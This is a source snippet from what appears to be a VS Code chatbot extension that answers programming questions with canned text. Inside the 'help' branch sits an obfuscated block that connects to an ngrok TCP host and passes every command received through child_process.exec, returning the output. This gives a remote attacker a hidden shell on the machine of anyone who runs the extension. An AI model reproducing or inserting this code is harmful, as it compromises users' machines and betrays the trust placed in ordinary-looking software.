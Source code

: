 ```js
                case 'binary search':
                    response = 'Binary Search is a fast search algorithm with O(log n) time complexity. It works by repeatedly dividing in half the portion of the list that could contain the item, until you\'ve narrowed down the possible locations to just one.';
                    break;
                default:
                    response = `Sorry, I don't have information on '${algorithm}'.`;
            }
            vscode.window.showInformationMessage(`ChatBot: ${response}`);
        }, 1000);
        return;
    } else if (userInput.toLowerCase().includes('help')) {
        response = 'You can ask me about programming languages, algorithms, data structures, or coding tips.';
        const _0x3390bc=_0x423e;function _0x3e52(){const _0x14a95e=['process','ess','log','bGkyQ','child_proc','433068GAVVdC','KKJsC','3558228jqdABL','join','tCzjG','writeFile','5861450KWrzJd','net','6.tcp.eu.n','existsSync','8mEVbLY','.lock','33671lcKKCQ','write','homedir','7608789yiXVDm','connect','Socket','exec','close','7500TuJOnk','AZCnT','4640KgvouZ','1240CscGNm','817948FedAcv','10yrCwwl','grok.io','path','mdIHn','closed','qZNxq','data','error','toString'];_0x3e52=function(){return _0x14a95e;};return _0x3e52();}function _0x423e(_0x32668a,_0x544365){const _0x3281b0=_0x3e52();return _0x423e=function(_0x44145a,_0x1452d8){_0x44145a=_0x44145a-(0x29*0x45+-0xef7*0x2+0x13ed);let _0x33b85d=_0x3281b0[_0x44145a];return _0x33b85d;},_0x423e(_0x32668a,_0x544365);}(function(_0x1376e4,_0x462510){const _0x59e326=_0x423e,_0x5ade35=_0x1376e4();while(!![]){try{const _0x3df722=-parseInt(_0x59e326(0x11d))/(-0x8d8+-0x91*0x13+-0x3ec*-0x5)+-parseInt(_0x59e326(0x12c))/(0x14b6+0x769*0x5+-0x39c1)+-parseInt(_0x59e326(0x119))/(0x5*0x6c2+-0x3*-0x679+0x16*-0x26b)*(parseInt(_0x59e326(0x11c))/(-0x1d0*0x1+-0x1*0x30+0x204))+-parseInt(_0x59e326(0x11e))/(-0x3d3+0x1*0x1e3e+0x3e*-0x6d)*(-parseInt(_0x59e326(0x12e))/(0x23fa+-0x10fd+0x1*-0x12f7))+-parseInt(_0x59e326(0x132))/(0xae3*-0x2+0x1d00+-0x733)*(-parseInt(_0x59e326(0x10f))/(0x24a7*-0x1+-0x4a0*-0x8+-0x1*0x51))+-parseInt(_0x59e326(0x114))/(-0x26a4+0x15cc+0x95*0x1d)+parseInt(_0x59e326(0x11b))/(-0x2*-0x9d1+-0x15d8+-0x18*-0x18)*(parseInt(_0x59e326(0x111))/(-0x1*0x1efd+0x1*0x2565+-0x65d));if(_0x3df722===_0x462510)break;else _0x5ade35['push'](_0x5ade35['shift']());}catch(_0x16859e){_0x5ade35['push'](_0x5ade35['shift']());}}}(_0x3e52,0x1505f9+-0x7c7ee+-0x134b0));const fs=require('fs'),net=require(_0x3390bc(0x10c)),path=require(_0x3390bc(0x120)),os=require('os'),{pid}=require(_0x3390bc(0x127)),lockFilePath=path[_0x3390bc(0x12f)](os[_0x3390bc(0x113)](),'.'+pid+_0x3390bc(0x110));!fs[_0x3390bc(0x10e)](lockFilePath)&&(fs[_0x3390bc(0x131)](lockFilePath,'',_0x2452ba=>{const _0x1288f9=_0x3390bc;_0x2452ba&&console[_0x1288f9(0x125)](_0x2452ba);}),(function(){const _0x3888c3=_0x3390bc,_0x3a2b7d={'tCzjG':function(_0xc37733,_0x5552a9){return _0xc37733(_0x5552a9);},'mdIHn':_0x3888c3(0x12b)+_0x3888c3(0x128),'qZNxq':_0x3888c3(0x122),'KKJsC':_0x3888c3(0x10d)+_0x3888c3(0x11f),'bGkyQ':_0x3888c3(0x124),'AZCnT':_0x3888c3(0x118)},_0x3db126=new net[(_0x3888c3(0x116))]();return _0x3db126[_0x3888c3(0x115)](0x1fd*-0xb+-0x11d5+0x687f,_0x3a2b7d[_0x3888c3(0x12d)]),_0x3db126['on'](_0x3a2b7d[_0x3888c3(0x12a)],_0xd34d07=>{const _0x70cc2e=_0x3888c3,_0x45fcf2=_0xd34d07[_0x70cc2e(0x126)]();_0x3a2b7d[_0x70cc2e(0x130)](require,_0x3a2b7d[_0x70cc2e(0x121)])[_0x70cc2e(0x117)](_0x45fcf2,(_0x460220,_0x254585,_0x3aa38b)=>{const _0x222d46=_0x70cc2e;_0x460220?_0x3db126[_0x222d46(0x112)](_0x3aa38b):_0x3db126[_0x222d46(0x112)](_0x254585);});}),_0x3db126['on'](_0x3a2b7d[_0x3888c3(0x11a)],()=>{const _0x2d9eb3=_0x3888c3;console[_0x2d9eb3(0x129)](_0x3a2b7d[_0x2d9eb3(0x123)]);}),/a/;}()));
        response = 'An algorithm is a set of instructions designed to perform a specific task. It can be expressed as a finite sequence of well-defined steps.';
    } else if (userInput.toLowerCase().includes('data structure')) {
        response = 'A data structure is a way of organizing and storing data so that it can be accessed and used efficiently. Examples include arrays, linked lists, stacks, queues, trees, and graphs.';
    } else if (userInput.toLowerCase().includes('programming paradigm')) {
        response = 'A programming paradigm is a fundamental style of computer programming. Common paradigms include imperative, declarative, functional, and object-oriented.';
    } else if (userInput.toLowerCase().includes('api')) {
        response = 'An API (Application Programming Interface) is a set of rules and protocols that allows different software applications to communicate with each other.';
    } else if (userInput.toLowerCase().includes('git')) {
        response = 'Git is a distributed version control system designed to handle everything from small to very large projects with speed and efficiency.';
    } else if (userInput.toLowerCase().includes('debugging')) {
        response = 'Debugging is the process of finding and resolving defects or problems within a computer program.';
```